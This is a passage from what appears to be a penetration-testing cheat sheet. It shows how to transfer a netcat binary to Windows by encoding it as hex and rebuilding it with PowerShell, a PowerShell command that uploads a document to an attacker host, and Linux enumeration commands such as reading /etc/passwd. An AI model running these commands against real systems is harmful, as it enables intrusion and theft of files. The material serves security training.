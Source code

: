   - Download with exe2hex and PowerShell
    ```bash
    #In Kali
    cp /usr/share/windows-resources/binaries .
    #The, we will reduce the file size with upx
    upx -9 nc.exe
    #Finally, we will convert the to hex
    exe2hex -x nc.exe -p nc.cmd
    ```
    ```bash
    #In Windows
    C:\Users\offsec>powershell -Command "$h=Get-Content -readcount 0 -path './nc.hex';$l=$h[0].length;$b=New-Object byte[] ($l/2);$x=0;for ($i=0;$i -le $l-1;$i+=2){$b[$x]=[byte]::Parse($h[0].Substring($i,2),[System.Globalization.NumberStyles]::HexNumber);$x+=1};set-content -encoding byte 'nc.exe' -value $b;Remove-Item -force nc.hex;"
    ```
  - Upload file in Powershell
  ```bash
  powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
  ```
    
# **Privilege Escalation**
## General commands
  - **whoami**
  - **hostname**
## **Linux**

- **Manually**
  - More user information
    ```bash
    id
    ```
  - Enumerate users
    ```bash
    cat /etc/passwd
    ```
  - System Information
    ```bash
    # System identification
    cat /etc/issue
    ```
    ```bash
    cat /etc/*-release
    ```
    ```bash
    # Kernel Version
    uname -a
    ```
    ```bash
    # Architecture
    arch
    ```
  - Running Processes and Services
    ```bash
    ps aux